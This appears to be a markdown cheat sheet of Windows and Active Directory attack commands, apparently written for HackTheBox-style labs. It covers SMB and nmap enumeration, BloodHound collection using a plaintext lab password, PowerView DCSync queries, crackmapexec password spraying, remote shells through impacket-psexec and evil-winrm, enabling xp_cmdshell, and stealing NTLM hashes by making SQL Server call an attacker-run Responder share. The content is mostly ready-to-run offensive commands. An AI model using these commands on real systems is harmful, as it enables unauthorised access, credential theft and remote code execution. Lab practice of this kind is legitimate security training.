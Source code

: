 # Windows Recon & Attack
## Enumeration
### Common
```bash
smbmap -H <IP or hostname> -u null # Test for null access

bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
### Scans
```bash
sudo nmap -p- -sC -sV $IP --open -oA scans/nmap_Initial
```

### Uncredentialed
List Shares
```bash
smbclient -L \\\\<IP or hostname> 
```
smbmap
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
### Credentialed
CME
```bash
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019 --shares
```
smbmap
```bash
smbmap -H <IP or Hostname> -u <user> -p <password>
```
smbclient
```bash
smbclient -U <user> //<host or ip>/<share> <password>
```
Bloodhound-Python
```bash
bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
PowerView/Sharpview
```powershell
#Get all users without a blank description field
Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null}

#Get all all users with DCSync
$dcsync = Get-ObjectACL "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value
Convert-SidToName $dcsync
```
### Password Spray
CME
```bash
crackmapexec smb 10.10.10.178 -u Usernames.txt -p 'welcome2019' --local-auth --continue-on-success
```
## Remote Shell
### Impacket
Impacket-psexec
```bash
impacket-psexec <user>:<password>@<IP>
```
### Evil-WinRM
```bash
evil-winrm -u <user> -p <password> -i <host or ip>
```
## Attack
### SQL
xp_cmdshell
```powershell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```
Hash Stealing with xp_subdris or xp_dirtree  
Start Responder on Attack machine
```powershell
EXEC master..xp_dirtree '\\10.10.110.17\share\'
or
EXEC master..xp_subdirs '\\10.10.110.17\share\'
#Collect hashes from Responder
```

